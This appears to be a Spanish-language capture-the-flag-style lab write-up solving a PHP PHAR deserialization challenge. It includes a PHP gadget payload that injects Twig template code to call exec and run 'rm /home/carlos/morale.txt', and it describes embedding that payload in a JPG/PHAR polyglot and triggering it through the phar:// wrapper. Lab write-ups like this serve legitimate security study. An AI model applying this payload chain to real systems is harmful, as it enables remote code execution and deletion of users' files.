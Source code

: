 Una vez subido el archivo avatar con el payload PHAR incrustado, realizamos una petición a ‘**avatar.php**‘ modificando el parámetro ‘**avatar**‘ para usar el protocolo ‘**phar://**‘.

Esto hace que ‘**file_exists()**‘ evalúe el archivo como un objeto serializado, desencadenando la ejecución de nuestro payload Twig embebido, lo cual provoca que se ejecute el comando ‘**rm /home/carlos/morale.txt**‘, resolviendo así el laboratorio.

Solucion
entonces una vez acabo el payload que daria asi
(<?php
    class Blog {}
    class CustomTemplate {}
    $blog = new Blog();
    $blog->user = 'pwned';                             
    $blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
    $obj = new CustomTemplate();
    $obj->template_file_path = $blog;
?>)

entonces para que funcione este codigo nosotro vamos a utilizar una herramienta en github que se llama polyglot (https://github.com/kunte0/phar-jpg-polyglot)
Este repositorio es una herramienta para generar archivos JPG que también contienen código PHAR ejecutable. Está pensado para pruebas de seguridad y retos CTF, y demuestra cómo una imagen aparentemente inocente puede ocultar código PHP malicioso. Es una técnica avanzada usada en auditorías de seguridad para detectar vulnerabilidades en el manejo de archivos por parte de aplicaciones PHP.
![Pasted image 20250827214636.png](imagenes/Pasted image 20250827214636.png)
entonces modificamos el codigo de esta imagen
![Pasted image 20250827214948.png](imagenes/Pasted image 20250827214948.png)
tal que vamos a elminar el ejemplo y poner nuestro codigo de archivo malicioso
![Pasted image 20250827215132.png](imagenes/Pasted image 20250827215132.png)
tal que queda asi
![Pasted image 20250827215341.png](imagenes/Pasted image 20250827215341.png)
ejecutamos pasandole los archivos
![Pasted image 20250827215511.png](imagenes/Pasted image 20250827215511.png)
podemos ver que ya nos realiza el objeto
subimos el archivo out.jpg
![Pasted image 20250827215629.png](imagenes/Pasted image 20250827215629.png)
vemos que la imagen se sube
![Pasted image 20250827215724.png](imagenes/Pasted image 20250827215724.png)
si nosotros inspeccionamos la imagen vemos que tiene la misma ruta
![Pasted image 20250827215807.png](imagenes/Pasted image 20250827215807.png)
copiamos solo que en este caso vamos agregar phar y le damos a enter
![Pasted image 20250827215906.png](imagenes/Pasted image 20250827215906.png)vemos que nos sale not found pero si vamos al home
![Pasted image 20250827215958.png](imagenes/Pasted image 20250827215958.png)
![Pasted image 20250827220025.png](imagenes/Pasted image 20250827220025.png)

